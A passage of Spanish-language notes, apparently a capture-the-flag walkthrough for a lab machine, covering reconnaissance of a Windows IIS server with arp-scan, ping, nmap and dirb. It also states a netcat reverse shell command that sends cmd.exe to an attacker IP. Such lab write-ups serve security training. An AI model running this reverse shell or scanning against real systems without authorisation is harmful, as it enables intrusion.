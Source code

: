 Maquinas que voy a utilizar **Kali Linux y Cocido Andaluz** [https://thehackerslabs.com/cocido-andaluz/](https://thehackerslabs.com/cocido-andaluz/)

  

> [!important] Un servidor **Microsoft IIS (Internet Information Services)** es una plataforma de servidor web desarrollada por Microsoft. Es utilizada para alojar páginas y aplicaciones web, así como servicios relacionados con el Protocolo de Transferencia de Hipertexto (**HTTP**). IIS permite a los usuarios publicar contenido web y gestionar funciones relacionadas con servidores, aplicaciones y sitios web.

  

Comando utilizado para ejecutar la reverse shell:

\`\192.168.0.X\recurso\nc.exe -e cmd.exe 192.168.0.X 443`

  

Vamos a intentar obtener **intrusión remota** en un servidor Microsoft IIS mediante un **archivo malicioso con extensión aspx**.

  

```Bash
sudo arp-scan -I eth0 --localnet
```

![[Imagenes/image 48.png|image 48.png]]

  

```Bash
ping -c 1 10.0.3.19  
```

![[Imagenes/image 1 37.png|image 1 37.png]]

El **ttl=128** nos informa que es una maquina **Windows.**

  

```Bash
nmap -p- -sS -sV -sC -min-rate=5000 -n -vvv -Pn 10.0.3.19 
```

![[Imagenes/image 2 36.png|image 2 36.png]]

  

- Provamos la IP en el navegador
    
    ![[Imagenes/image 3 35.png|image 3 35.png]]
    
      
    
- Hacemos **Fuzzing Web con la herramienta dirb.**
    
    ```Bash
    dirb http://10.0.3.19/
    ```
    
    ![[Imagenes/image 4 34.png|image 4 34.png]]
    